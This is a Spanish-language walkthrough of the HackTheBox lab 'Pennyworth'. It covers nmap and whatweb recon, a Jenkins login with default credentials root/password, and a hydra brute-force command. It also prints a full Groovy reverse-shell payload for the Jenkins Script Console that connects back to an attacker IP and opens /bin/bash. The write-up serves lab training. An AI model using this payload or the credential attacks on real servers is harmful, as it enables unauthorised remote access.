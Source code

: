 Aca vemos [[groovy]]

----

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures
	Es un identificador único asignado a una vulnerabilidad de seguridad específica en un software o hardware

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy
	Acepta groovy scripts

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe
	Ejemplo: "cmd.exe /c whoami"
- `cmd.exe` → Llama al intérprete de comandos de Windows.
- `/c` → Le dice a `cmd` que ejecute el comando que sigue y luego se cierre.
- `whoami` → El comando que queremos correr (devuelve el usuario actual).

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u
	Aparece en el panel de ayuda de netcat `nc -h`

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]

Por el ttl sabemos que es una maquina linux
*Puertos:*
`8080` Corre un servicio http con el servicio jetty. El archivo robots, y server-header no nos dan ningun informacion relevante

-------

# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39 que vimos tambien en nmap

----

# Intrusion al panel de logeo

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Despues de intentar los usuarios y contraseñas mas comunes, logramos dar con 
```
Usuario: root
Contraseña: password
```
Intente hacerlo con hydra y la verdad no pude

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]
Ahora vamos a ir a la parte de consola y vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]





--------
# Notas
Intente correr hydra pero la verdad no me dio resultado, asi que termine mirando el writeup para la parte del login panel

```
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10k-most-common.txt -s 8080 10.129.255.235 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=200" -t 10 -V -o resultado.txt
```
# Creditos
Writeup Oficial HackTheBox








